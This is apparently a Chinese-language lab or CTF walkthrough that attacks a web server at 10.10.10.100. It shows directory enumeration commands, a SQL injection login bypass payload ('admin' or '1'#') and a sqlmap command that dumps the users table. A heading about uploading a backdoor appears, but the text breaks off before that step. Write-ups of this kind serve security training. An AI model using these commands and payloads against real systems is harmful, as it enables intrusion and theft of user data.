 ```plain
dirsearch -u "http://10.10.10.100" -o dirsearch_info
gobuster dir -u http://10.10.10.100 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -o gobuster_info
dirb http://10.10.10.100 -o dirb_info

whatweb "http://10.10.10.100/blog/"
```

> /blog 内容管理系统、博客，  
> /info 显示了了phpinfo()内容，  
> /includes 文件列表，/images 文件列表  
> /blog 博客页由Simple PHP搭建。MetaGenerator\[Simple PHP Blog 0.4.0\], PHP\[5.3.5-1ubuntu7\]

### PORT 80

[http://10.10.10.100](http://10.10.10.100/) “欢迎来到内网”（登录、注册）  
[http://10.10.10.100/blog](http://10.10.10.100/blog) 内容管理系统（登录、搜索、内容提交）

<1>注册后登录会一直显示 "Logging in...."，不排除可能有waf这种机制存在，很可能某些操作会被判定为恶意行为然后被block掉

<2>经过测试，发现首页的登录功能，用户名单引号会报错，使用万能密码admin' or '1'#可以登录，该页面存在sql注入。直接使用sqlmap

[![](assets/1703831504-01d0132c287b5a64c991976030016dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163834-525673fc-a493-1.png)

### sqlmap 后门上传

<1>注入点测试 拿数据

```plain
//POST注入
sqlmap -u 'http://10.10.10.100/login.php' --data='email=admin&pass=admin&submit=Login' --level=5 --risk=3 --batch -D ch16 -T users --dump
```

[![](assets/1703831504-29c3396788c52601eb738f6b32d09742.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227163842-5761ff9c-a493-1.png)
